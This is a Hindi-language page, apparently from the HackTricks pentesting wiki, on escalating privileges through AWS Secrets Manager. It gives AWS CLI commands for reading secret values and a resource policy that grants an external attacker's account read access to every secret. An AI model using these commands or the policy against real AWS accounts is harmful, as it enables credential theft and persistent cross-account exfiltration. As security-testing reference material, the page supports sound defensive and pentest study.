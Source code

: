 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Secrets Manager के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

इस अनुमति वाले attacker AWS **Secretsmanager** में किसी secret के अंदर **सहेजा हुआ मान** प्राप्त कर सकता है।
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**संभावित प्रभाव:** AWS secrets manager service के अंदर अत्यंत संवेदनशील डेटा तक पहुँच।

> [!WARNING]
> ध्यान दें कि भले ही `secretsmanager:BatchGetSecretValue` अनुमति हो, एक attacker को संवेदनशील secrets प्राप्त करने के लिए `secretsmanager:GetSecretValue` भी आवश्यक होगी।

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

पिछली अनुमतियों के साथ यह संभव है कि अन्य principals/accounts (even external) को इस **secret** तक पहुँच दी जा सके। ध्यान दें कि **KMS key से एन्क्रिप्ट किए गए secrets को पढ़ने** के लिए, user को **KMS key पर access** भी होना चाहिए (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}

